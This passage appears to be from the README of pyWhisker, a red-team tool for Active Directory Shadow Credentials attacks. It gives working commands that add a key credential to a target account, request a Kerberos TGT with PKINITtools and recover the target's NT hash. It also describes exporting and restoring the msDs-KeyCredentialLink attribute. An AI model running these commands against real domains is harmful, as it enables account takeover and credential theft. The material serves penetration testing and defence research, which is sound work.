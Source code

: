 Once the values are generated and added by pyWhisker, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```shell
python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```

![](./.assets/add_pfx_gettgtnthash.png)

### Example with the PEM format

```shell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename test2 --export PEM
```

![](./.assets/add_pem.png)

Once the values are generated and added by pyWhisker, a TGT can be request with [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). The NT hash can then be recovered with [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py).

```shell
python3 PKINITtools/gettgtpkinit.py -cert-pem test2_cert.pem -key-pem test2_priv.pem domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a1553f15fdf24731731cecad16 domain.local/user2
```

![](./.assets/add_pem_gettgtnthash.png)


### Import and Export

KeyCredentials stored in the `msDs-KeyCredentialLink` attribute can be parsed, structured and saved as JSON.

![](./.assets/export.png)

The JSON export can then be used to restore the `msDs-KeyCredentialLink` attribute in the state it was at the time of export.

![](./.assets/import.png)


# Relayed authentication

[A Pull Request](https://github.com/SecureAuthCorp/impacket/pull/1132) is currently awaiting approval to include pywhisker's "adding" feature to ntlmrelayx.
